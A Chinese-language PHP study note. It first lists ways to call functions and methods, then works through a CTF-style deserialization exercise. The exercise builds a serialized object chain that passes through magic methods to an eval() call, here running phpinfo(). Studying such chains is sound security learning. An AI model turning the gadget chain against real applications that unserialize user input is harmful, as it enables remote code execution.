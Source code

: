 在 PHP 中，您可以使用不同的方式来调用函数和类方法，具体取决于您的需求和代码结构。以下是一些常见的方法：

**调用函数：**

1. 直接调用函数名：

   ```
   functionName();
   ```

2. 使用可变函数调用：

   ```
   $functionName = 'functionName';
   $functionName();
   ```

3. 使用 `call_user_func` 函数调用：

   ```
   call_user_func('functionName');
   ```

4. 使用 `call_user_func_array` 函数传递参数调用：

   ```
   call_user_func_array('functionName', [$param1, $param2]);
   ```

**调用类方法：**

1. 实例化对象后调用：

   ```
   $object = new ClassName();
   $object->methodName();
   ```

2. 直接调用静态方法：

   ```
   ClassName::staticMethodName();
   ```

3. 使用可变类调用：

   ```
   $className = 'ClassName';
   $methodName = 'methodName';
   $object = new $className();
   $object->$methodName();
   ```

4. 使用 `call_user_func` 调用类方法：

   ```
   call_user_func([$object, 'methodName']);
   ```

5. 使用 `call_user_func_array` 传递参数调用类方法：

   ```
   call_user_func_array([$object, 'methodName'], [$param1, $param2]);
   ```

这些是一些常见的调用函数和类方法的方式，您可以根据项目需求和代码结构来选择合适的方式。

例题：

```php
<?php
    class AA{
        public $a;
        public $aa;
        public function __destruct(){
            echo $this->a;
        }
        
        public function __toString(){
            return "hello";
        }
    }
    
    class BB{
        public $b;
        public function __toString(){
            ($this -> b)();
            return "6";
        }
        public function good($c){
            eval($c);
        }
    }
    
    class CC{
        public $c;
        public $cc;
        public function __invoke(){
            // var_dump($this->c);
            // var_dump($this->cc);
            // ('(new CC())')("phpinfo");
            ($this->c)($this->cc);
        }
        public function __toString(){
            return "ok,but wrong";
        }
        public function __call($ccc, $cccc){
            var_dump($ccc);
            var_dump($cccc);
            call_user_func($ccc,$cccc);
        }
    }
    $a = new AA;
    $a->a = new BB;
    $a->a->b = new CC;
    $b = new BB;
    $a->a->b->c = array($b, "good");
    $a->a->b->cc = 'phpinfo();';
    echo serialize($a);
    echo "\n";
    // $a = unserialize($_GET['QAQ_O.o']);
    // throw new Error("NoNoNo!Hacker!");
```

如果是`$this->c($this->cc);`，就相当于调用了`CC::__call()`，加了括号会优先解析括号里的值，就相当于`CC::c`

个人猜测，使用字符串调用函数的方法和`call_user_func`是一样的，如果字符串改为数组，那就和`call_user_func(array, argc)`是一个效果，也就是调用类方法时可以使用`array(new BB(), "good")('phpinfo();');`或者`call_user_func(array(new BB(), "good"), 'phpinfo();');`